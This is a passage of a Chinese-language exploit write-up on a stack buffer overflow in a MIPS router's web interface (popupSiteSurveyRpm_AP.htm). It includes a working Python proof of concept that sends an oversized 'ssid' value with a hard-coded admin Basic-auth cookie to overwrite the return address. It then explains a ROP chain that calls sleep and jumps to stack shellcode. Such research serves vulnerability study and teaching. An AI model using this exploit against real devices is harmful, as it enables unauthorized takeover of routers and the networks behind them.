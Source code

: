 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0103c1e9eec4d944cb.png)

在溢出区域出放置地址我们就能够成功控制程序流。让我们用python实现一下poc.py

```
import requests
import socket
import socks
import urllib
default_socket = socket.socket
socket.socket = socks.socksocket
session = requests.Session()
session.verify = False
def exp(path,cookie):
    headers = `{`
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
                "Cookie":"Authorization=Basic`{`cookie`}`".format(cookie=str(cookie))`}`
    payload="/%0A"*0x55 + "abcdefghijklmn"+"\x78\x56\x34\x12"
    params = `{`
        "mode":"1000",
                "curRegion":"1000",
                "chanWidth":"100",
                "channel":"1000",
                "ssid":urllib.request.unquote(payload) #if python3
                                      #urllib.unquote(payload) #if python2 (suggest)
        `}`
    url="http://10.211.55.8:80/`{`path`}`/userRpm/popupSiteSurveyRpm_AP.htm".format(path=str(path))
    resp = session.get(url,params=params,headers=headers,timeout=10)
    print (resp.text)

exp("AYEUYUFAXVOKELRC","%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D")
```

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

接下来让我们为这个漏洞编写一下利用脚本，语言我们使用python2.7。

利用时要注意Mips架构下默认ASLR是不开启的，并且heap和sgack是可执行的，所以直接跳转到shellcode即可。不过由于缓存不一致性，我们需要使用ROP。

> 注意Mips是大端的，数据存放方式与小端是相反的。并且在gdb调试后后记得endian为big，否则断点是断不下来的。

**构造ROP链**

Mips指令集包含一种的**[cache incoherency(缓存不一致性)](https://blog.senr.io/blog/why-is-my-perfectly-good-shellcode-not-working-cache-coherency-on-mips-and-arm)**，指令Cache和数据Cache两者的同步需要一个时间来同步。需要调用Sleep来让shellcode从数据Cache刷新到指令Cache，否则会执行失败，不能像x86架构下直接跳转到shellcode，而是需要构造如下一条ROP链接，先调用sleep，然后在跳转到shellcode。

```
sleep(1) -&gt; read_value_from_stack -&gt; jump to stack(shellcode)
```

Mips的栈并没有pop和push，而是直接调用栈，ROP链构造和x86有一些区别，不过总体上逻辑应该是更加简单了，不过gadgets比较难找（因为全是寄存器操作）。
